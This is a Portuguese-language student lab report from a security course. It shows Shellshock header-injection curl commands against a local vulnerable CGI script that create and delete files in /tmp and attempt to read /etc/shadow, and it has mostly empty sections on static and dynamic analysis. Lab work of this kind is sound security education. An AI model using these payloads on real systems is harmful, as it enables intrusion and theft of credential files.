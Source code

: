 # Module 2

-------


# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_a_1.png "Código com espaços")

### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_b_1.png "Código com espaços")

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.

![alt text](parte1_ex2_c_1.png "Código com espaços")

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.

![alt text](parte1_ex2_c_2.png "Código com espaços")

Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.

![alt text](parte1_ex2_c_3.png "Código com espaços")

O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.



### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

![alt text](parte1_ex2_d_1.png "Código com espaços")

Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.
![alt text](parte1_ex2_d_2.png "Código com espaços")

O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.



# Parte B

## Static analysis

### Ponto 2

#### a)
Nas imagens abaixo, é possivel verificar as alterações da versão 1 para a versão 2:

![alt text](parte2_ex_2_a_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_a_2.jpeg "Código com espaços")


#### b)
Nas imagens abaixo, é possivel verificar a adição do código do workflow trigger.

![alt text](parte2_ex_2_b_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_b_2.jpeg "Código com espaços")


### Ponto 3

Após analisar os logs de ou

![alt text](parte2_ex3.png "Código com espaços")


### Ponto 4

![alt text](parte2_ex4_1.jpeg "Código com espaços")


![alt text](parte2_ex4_2.jpeg "Código com espaços")


![alt text](parte2_ex4_3.jpeg "Código com espaços")



## Dynamic analysis

### Ponto 6


### Ponto 7


### Ponto 8


### Ponto 9
#### a)

#### b)


### Ponto 10


### Ponto 11


### Ponto 12


### Ponto 13


### Ponto 14

